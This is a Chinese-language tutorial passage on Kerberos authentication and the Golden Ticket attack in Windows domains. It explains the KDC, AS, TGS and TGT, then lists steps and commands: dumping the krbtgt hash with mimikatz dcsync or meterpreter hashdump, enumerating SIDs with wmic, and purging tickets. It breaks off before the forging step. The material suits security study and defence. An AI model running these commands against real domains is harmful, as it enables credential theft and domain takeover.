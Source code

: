 Kerberos是一种基于票据的集中式的认证方式，认证过程涉及到三方：Client、Server、KDC。

在Windows域环境中，KDC的角色常常由DC（域控制器）来担任。

票据（Ticket）用来安全的在认证服务器和用户请求的服务之间传递用户的身份。

> **KDC（Key Distribution Center）：**密钥分发中心，kerberos认证服务器，由AS和TGS组成，在认证中会访问 AD数据库；
>
> **AS（Authentication Server）：**身份认证服务
>
> **TGS（Ticket Granting Server）：**票据授予服务，该服务提供的票据为（**白银票据**）
>
> **TGT（Ticket Granting Ticket）：**身份认证服务授予的票据（**黄金票据**），用于身份认证，存储在内存，默认有效期为10小时

在域环境中，每个用户账号的票据都是由Krbtgt生成的，这个账号的密码，储存在域控服务上 。

# 金票和银票

## 黄金票据（Golden Ticket）

> 黄金票据：即伪造的`TGT`票据，当攻击者拥有了高权限的TGT，就可以发送给KDC的TGS 换取`任意Server`的票据（ST）。
>
> 有了金票就有了当前域内的最高控制权限。

金票的**利用原理**是直接跳过了KDC的AS认证过程（AS-REQ、AS-REP通信）。

由于黄金票据是伪造的TGT，它作为TGS-REQ的一部分被发送到KDC的TGS，以获取服务票据ST。

伪造的黄金票据是 有效的TGT票据，因为它是由域账号`krbtgt`的`NTLM Hash`加密和签名的。

TGT用于向KDC的TGS服务证明Client已经过AS认证，TGT可以被该域内的任何KDC服务器解密。

**1、导出`krbtgt`的`NTML Hash`**

域管理员权限运行mimikatz（或其它域主机的本地管理员账号密码和域控相同也行）

```bash
mimikatz.exe "lsadump::dcsync /user:krbtgt" exit

#MSF中的hashdump也可以
meterpreter> hashdump
```

**2、获取域中所有用户SID**

应用的时候，去掉SID最后的数字

```bash
#只要是域用户权限就行
wmic useraccount get name,sid
```

**3、制造黄金票据**

**（1）清空现有票据**

```bash
mimikatz.exe "kerberos::purge" exit
```
